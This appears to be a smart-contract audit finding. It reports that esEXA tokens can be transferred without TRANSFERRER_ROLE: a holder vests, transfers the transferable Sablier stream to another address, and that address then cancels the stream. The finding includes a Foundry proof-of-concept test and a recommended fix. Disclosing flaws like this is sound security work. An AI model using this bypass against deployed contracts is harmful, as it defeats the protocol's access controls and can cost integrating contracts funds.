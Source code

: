 Recumbent Chartreuse Gazelle

medium

# Any address without TRANSFERRER_ROLE can transfer esEXA tokens.



## Summary
 
 Only addresses with TRANSFERRER_ROLE can transfer esEXA tokens but ANY address can transfer esEXA to another using a combination of `esEXA::vest`, `sablier::transferFrom` and `esEXA::cancel` because when vesting the `EscrowedEXA.sol` contract creates a sablier token stream with `transaferable=true` property by default.


## Vulnerability Detail

When a user vests esEXA tokens a sablier token stream is automatically created with the `transferable=true` property. If the user cancel right after initiating the vesting, the esEXA tokens are then transferred to the intended recipient. However, due to the stream's transferable nature, the recipient of the stream can be altered. Consequently, this new recipient can receive the esEXA tokens upon cancellation, thereby circumventing the controls established by the TRANSFERRER_ROLE.

### Attack path

Mark can transfer esEXA to Sam doing

1. Mark vest an amount of esEXA using `esEXA::Vest`
2. Mark just after vesting transfer the token stream to Sam using `sablier::transferFrom`
3. Sam now calls `esEXA::cancel` and get the esEXA token.

### Proof of Concept
Paste this POC to EscrowedEXA.t.sol

add import:

```javascript
import "forge-std/console2.sol";
```

```javascript

  function testTransferEsEXAWithoutTransferRole() external {
    uint256 amount = 1_000 ether;
    uint256 ratio = esEXA.reserveRatio();
    uint256 reserve = amount.mulWadDown(ratio);

    address sam = address(1001);
    address mark = address(1002);

    vm.label(sam, "sam");
    vm.label(mark, "mark");

    esEXA.mint(amount, sam);
    exa.transfer(sam, reserve);

    uint256[] memory streams = new uint256[](1);

    console2.log("EsEXA balance AFTER mark: %d , sam: %d", esEXA.balanceOf(mark), esEXA.balanceOf(sam));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), mark));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), sam));
    assertEq(esEXA.balanceOf(sam), amount);
    assertEq(esEXA.balanceOf(mark), 0);

    vm.startPrank(sam);
    exa.approve(address(esEXA), reserve);
    // mark will vest amount of esEXA
    streams[0] = esEXA.vest(uint128(amount), sam, ratio, esEXA.vestingPeriod());
    // Since the stream is set transferable when created and it is a NFT can be transfered to another person(mark).
    address(sablier).call(
                abi.encodeWithSignature("transferFrom(address,address,uint256)", sam, mark, streams[0])
            );
    vm.stopPrank();

    vm.prank(mark);
    
    // mark cancel the stream and get the esEXA. 
    esEXA.cancel(streams);

    console2.log("EsEXA balance BEFORE mark: %d , sam: %d", esEXA.balanceOf(mark), esEXA.balanceOf(sam));

    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), mark));
    assertTrue(!esEXA.hasRole(esEXA.TRANSFERRER_ROLE(), sam));
    assertEq(esEXA.balanceOf(sam), 0);
    // Mark got the esEXA from sam without having TRANSFERRER_ROLE using a combination of esEXA::vest, sablier::transferFrom and esEXA::cancel
    assertEq(esEXA.balanceOf(mark), amount);

  }

```



## Impact
TRANSFERRER_ROLE Access Control bypass break important assumptions that protocol contracts do as the [exactly documentation says:](https://docs.exact.ly/governance/exactly-token-exa/escrowedexa-esexa)

`
The esEXA tokens are only transferable for accounts with a TRANSFERER_ROLE, reserved for the protocol contracts to integrate smoothly.
`
This design flaw could create security problems, operational problems or loss of funds to those protocol contracts that rely on the assumption that only accounts with  TRANSFERRER_ROLE  can transfer esEXA tokens

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/periphery/EscrowedEXA.sol#L58-L62

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/periphery/EscrowedEXA.sol#L96-L107


## Tool used

Manual Review

## Recommendation

Only addresses with TRANSFERRER_ROLE should create `transaferable=true` token stream and all others addresses should create non transferable stream.